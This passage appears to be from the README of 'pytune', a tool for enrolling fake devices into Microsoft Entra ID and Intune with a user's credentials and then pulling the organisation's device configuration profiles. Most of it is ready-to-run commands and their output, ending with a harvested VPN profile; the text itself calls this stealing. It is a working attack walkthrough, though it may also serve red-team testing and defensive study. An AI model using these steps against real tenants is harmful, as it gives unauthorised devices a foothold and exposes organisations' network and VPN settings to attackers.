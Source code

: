 
### Enroll a fake device

To enroll a fake device to Intune, you need to register it to Entra ID first with `entra_join` command.

```
$ python3 pytune.py entra_join -o Windows -d Windows_pytune -u testuser@*******.onmicrosoft.com -p ***********                          
Saving private key to Windows_pytune_key.pem
Registering device
Device ID: 8fd0710a-1ea3-4261-86d1-48d7509c80b8
Saved device certificate to Windows_pytune_cert.pem
[+] successfully registered Windows_pytune to Entra ID!
[*] here is your device certificate: Windows_pytune.pfx (pw: password)
```

You will receive an Entra ID's device certificate when succeded.

Then, you can enroll the fake device to Intune with `enroll_intune` command.

```
$  python3 pytune.py enroll_intune -o Windows -d Windows_pytune -c Windows_pytune.pfx -u testuser@*******.onmicrosoft.com -p *********** 
[*] resolved enrollment url: https://fef.msuc06.manage.microsoft.com/StatelessEnrollmentService/DeviceEnrollment.svc
[+] successfully enrolled Windows_pytune to Intune!
[*] here is your MDM pfx: Windows_pytune_mdm.pfx (pw: password)
```

Intune MDM device ceritificate, `{device_name}_mdm.pfx`, is generated once the device is enrolled to Intune.

### Steal device configuration

You can start check-in with `checkin` command.
This exchanges information between device and Intune management server.

```
$ python3 pytune.py checkin -o Windows -d Windows_pytune -c Windows_pytune.pfx -m Windows_pytune_mdm.pfx -u testuser@*******.onmicrosoft.com -p ***********
[*] send request #1
 [*] sending data for ./Vendor/MSFT/NodeCache/MS%20DM%20Server
 [*] sending data for ./Vendor/MSFT/NodeCache/MS%20DM%20Server/CacheVersion
 [*] sending data for ./Vendor/MSFT/NodeCache/MS%20DM%20Server/ChangedNodes
 [*] sending data for ./DevDetail/SwV
 [*] sending data for ./DevDetail/Ext/Microsoft/LocalTime
 [*] sending data for ./Vendor/MSFT/WindowsLicensing/Edition
 [*] sending data for ./Vendor/MSFT/Update/LastSuccessfulScanTime
...
```

If there are any device configuration profiles, pytune will steal and display them. The followings are the examples of VPN and Wi-Fi settings delivered to the fake device.

```
[*] send request #9
[*] checkin ended!
[!] maybe these are configuration profiles:
- ./Device/Vendor/MSFT/VPNv2/Contoso%20VPN/RememberCredentials: false
- ./Device/Vendor/MSFT/VPNv2/Contoso%20VPN/AlwaysOn: false
- ./Device/Vendor/MSFT/VPNv2/Contoso%20VPN/RegisterDns: false
- ./Device/Vendor/MSFT/VPNv2/Contoso%20VPN/DeviceCompliance/Enabled: false
- ./Device/Vendor/MSFT/VPNv2/Contoso%20VPN/DeviceCompliance/Sso/Enabled: false
- ./Device/Vendor/MSFT/VPNv2/Contoso%20VPN/PluginProfile/ServerUrlList: vpn.contoso.com;Internal VPN
- ./Device/Vendor/MSFT/VPNv2/Contoso%20VPN/PluginProfile/CustomConfiguration: <pulse-schema><isSingleSignOnCredential>true</isSingleSignOnCredential></pulse-schema>
```